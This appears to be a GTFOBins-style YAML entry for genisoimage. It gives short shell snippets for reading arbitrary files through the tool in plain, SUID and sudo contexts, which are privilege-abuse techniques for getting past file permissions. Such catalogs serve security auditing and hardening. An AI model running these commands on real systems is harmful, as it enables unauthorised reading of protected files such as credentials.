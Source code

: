 ```yaml
---
description: The output is placed inside the ISO9660 file system binary format thus it may not be suitable for binary content as is, yet it can be mounted or extracted with tools like `7z`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        genisoimage -q -o - "$LFILE"
  suid:
    - description: The file is parsed, and some of its content is disclosed by the error messages, thus this might not be suitable to read arbitrary data.
      code: |
        LFILE=file_to_read
        ./genisoimage -sort "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo genisoimage -q -o - "$LFILE"
---
```

